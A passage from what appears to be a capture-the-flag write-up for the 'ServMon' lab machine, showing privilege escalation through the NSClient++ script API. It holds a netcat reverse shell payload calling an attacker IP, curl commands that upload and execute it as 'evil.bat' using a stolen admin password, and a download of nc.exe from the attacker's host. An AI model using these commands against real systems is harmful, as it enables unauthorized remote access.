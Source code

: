 ```text
Example¶
Given a file called check_new.bat which contains the following:


@echo OK: %1
@exit 0
We can use the following curl call to upload that as check_new.


curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/check_new.bat --data-binary @check_new.bat
Added check_new as scripts\check_new.bat
```

For my payload script I still used the one recommended by the exploit author, even though I was sending it to the server by a different method.  It was a very simple netcat reverse shell..

```text
#@echo off
c:\Temp\nc.exe 10.10.14.15 4443 -e cmd.exe
```

To send the payload to the server I used `curl` as specified by the documentation and sent the contents of my payload script as `--data-binary "<string>"`.   It prompted me to enter the admin password we had retrieved from the nscp client.  

```text
nadine@SERVMON C:\Temp>curl -s -k -u admin -X PUT \
 https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat \
 --data-binary "C:\Temp\nc.exe 10.10.15.20 12345 -e cmd.exe" 

 Enter host password for user 'admin': 
 Added evil as scripts\evil.bat
```

After sending the script it let me know that it had added the script under the name `evil`.  This is the name to use to run a query against it in order to run it.

```text
nadine@SERVMON C:\Users\Nadine>curl -s -k -u admin \
 https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=1m
```

At first, I tried executing the script but I didn't receive a reverse shell.  I realized after doing a bit of troubleshooting that I hadn't actually uploaded `nc.exe` to the remote host. My command to transfer the file had not completed successfully, but I had missed the error message it gave in my rush to finish since it was well past my bedtime. _Let this be a lesson to always take your time and pay attention to details, no matter how tired or in a hurry you may be :\)_

```text
nadine@SERVMON C:\Temp>curl http://10.10.15.20:8090/nc.exe
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.

nadine@SERVMON C:\Temp>curl http://10.10.15.20:8090/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  59392      0  0:00:01 --:--:--  0:00:01  264k

nadine@SERVMON C:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Temp

21/06/2020  13:12    <DIR>          .
21/06/2020  13:12    <DIR>          ..
```